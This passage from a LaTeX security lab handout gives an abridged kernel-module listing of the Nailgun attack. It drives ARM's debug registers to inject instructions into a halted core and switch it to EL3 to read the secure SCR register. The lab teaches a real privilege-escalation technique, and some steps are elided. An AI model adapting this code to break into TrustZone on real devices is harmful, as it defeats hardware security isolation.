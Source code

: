 \begin{lstlisting}
/* nailgun.c */

// Bits in EDRCR
#define CSE                             (1 <<  2)

// Transfer the instruction to the halting target and then execute it on the halting target
static void execute_ins_via_itr(void __iomem *debug, uint32_t ins) {
    uint32_t reg;
    // clear previous errors 
    iowrite32(CSE, debug + EDRCR_OFFSET);

    // Write instruction to EDITR register to execute it
    iowrite32(ins, debug + EDITR_OFFSET);

    // Wait until the execution is finished
    reg = ioread32(debug + EDSCR_OFFSET);
    while ((reg & ITE) != ITE) {
        reg = ioread32(debug + EDSCR_OFFSET);
    }

    if ((reg & ERR) == ERR) {
        printk(KERN_ERR "%s failed! instruction: 0x%08x EDSCR: 0x%08x\n", 
            __func__, ins, reg);  
    }
}

static uint32_t save_register(void __iomem *debug, uint32_t ins) {
    // Execute the ins to copy the target register to R0
    execute_ins_via_itr(debug, ins);
    // Copy R0 to the DCC register DBGDTRTX
    // 0xee000e15 <=> mcr p14, 0, R0, c0, c5, 0
    execute_ins_via_itr(debug, 0x0e15ee00);
    // Read the DBGDTRTX via the memory mapped interface
    return ioread32(debug + DBGDTRTX_OFFSET);
}

static void read_scr(void *addr) {
  ......

  // Step 5: Save context of the target core
  printk(KERN_INFO "Step 5: Save context\n");
  // 0xee000e15 <=> mcr p14, 0, R0, c0, c5, 0
  execute_ins_via_itr(param->debug_register, 0x0e15ee00);
  r0_old = ioread32(param->debug_register + DBGDTRTX_OFFSET);
  // 0xee740f35 <=> mrc p15, 3, R0, c4, c5, 1
  dlr_old = save_register(param->debug_register, 0x0f35ee74);

  // Step 6: Switch to EL3 to access secure resource
  printk(KERN_INFO "Step 6: Switch to EL3\n");
  // 0xf78f8003 <=> dcps3
  execute_ins_via_itr(param->debug_register, 0x8003f78f);

  // Step 7: Read the SCR
  printk(KERN_INFO "Step 7: Read SCR\n");
  % ....
  % scr = ....

  .......
}
......

\end{lstlisting}
\subsection{Task 6: Restore the Context and Exit.}

